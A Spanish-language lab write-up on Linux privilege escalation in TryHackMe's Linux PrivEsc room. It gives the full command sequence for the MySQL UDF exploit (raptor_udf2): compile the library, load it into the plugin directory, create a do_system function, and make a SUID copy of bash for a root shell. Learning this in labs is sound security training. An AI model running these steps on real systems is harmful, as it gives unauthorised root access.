 # Service Exploit

Una de las formas que se puede escalar privilegios es ver que servicios corre en el sistema ,muchas veces estos servicios tienen  privilegios altos o vulnerabilidades que nos podría ayudar a escalar privilegio en un sistema.

En la maquina de linuxprivesc en tryhackme tiene MySQL a traves de ese servicio se puede realizar la escalda utilizando un exploit conocido ,llamado MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2):

{% embed url="https://www.exploit-db.com/exploits/1518" %}

Pasos de para escalar privilegios con MySQL.

1.Compilar el exploit:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

2.Conectarse al servidor:

```
mysql -u root -p
```

3.Ejecutar los comandos en MySQL y crear User Defined Function (UDF) "do\_system"

`use mysql;`&#x20;

`reate table foo(line blob);`&#x20;

`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`&#x20;

`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`&#x20;

`create function do_system returns integer soname 'raptor_udf2.so';`&#x20;

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

`exit`

4.Cuando relizas los pasos anteriores salis de mysql y ejecutar los siguientes comandos

`/tmp/rootbash -p`&#x20;

Esto es un ejemplo de la maquina de como se puede utilizar un servicio para escalar privilegios.

[TryHackMe | Linux PrivEsc](https://tryhackme.com/r/room/linuxprivesc)
